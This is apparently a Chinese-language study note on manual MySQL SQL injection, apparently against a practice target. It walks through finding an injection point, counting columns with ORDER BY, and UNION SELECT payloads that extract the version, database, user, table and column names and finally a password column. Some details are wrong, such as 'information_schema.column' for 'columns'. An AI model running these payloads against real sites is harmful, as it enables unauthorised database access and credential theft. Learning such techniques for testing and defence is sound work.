

[TOC]


# WEB漏洞--SQL注入之简要SQL注入




## MySQL注入

### 信息收集

-   操作系统
-   数据库名
-   数据库用户
-   数据库版本
-   网站路径等

### 数据注入

-   低版本：暴力查询或结合读取查询

-   高版本：information_schema有据查询 

-   MySQL5.0以上版本存在自带数据库，information_schema，他是一个存储记录所有数据库名，表名，列名的数据库也相当于可以通过查询他获取指定数据库下面的表名或列名信息。

-   数据库中符号"."表示下一级，比如xiaodi.user表示xiaodi数据库下user的表名

    information_schema.tables：

    information_schema.column：记录所有列名的表

    table_schema：数据库名

    

------

### 数据库结构

```
MySQL数据库
	数据库A == 网站A
		表名(tables)
			列名
				数据
	数据库B == 网站B
	。。。
	数据库B == 网站B
```

```
use databases_name;
show tables;
select * from 表名; 
```


1.  如何判断是否有注入点：

```
老方法：
	and 1=1 返回正常
	and 1=2 返回错误
	可能存在注入点
或
	乱输入后 ，网站有影响，说明拼接的内容进入了数据库查询
还有一种：
	404 跳转，一般没问题
```

2.  猜解列名数量（字段数） order by，猜到错误与正常 的正常值

    `xxx.com/?id=1 order by 4`

3.   报错猜解

    `?id = -1 union select 1,2,3,4`

    假设显示2，3

4.  信息收集

    数据库版本：version()	：ubuntu

    数据库名字：database()	：mozhe_dis

    数据库用户：user()	：root@localhost

    操作系统：@@version_compile_os	：linux

    `?id = -1 union select 1,version(),database(),4`

    `?id = -1 union select 1,user(),@@version_compile_os,4`

    

5.  查询指定数据库名mozhe_dis下的表名信息：

    `?id=-1 union select 1,table_name,3,4 from information_schema.tables where table_schema = 'mozhe_dis'`
    
    上面只显示一个，如果想显示所有表名：group_concat()
    
    `?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = 'mozhe_dis'`
    
    
    
    假设查到表名：storm_mem
    
6.  查询指定表名storm_mem下的列信息：

     `?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.column where table_name = 'storm_mem'`

    假设查到passwd,id

7.  查询指定数据

    `?id=-1 union select 1,passwd,id,4 from storm_mem`


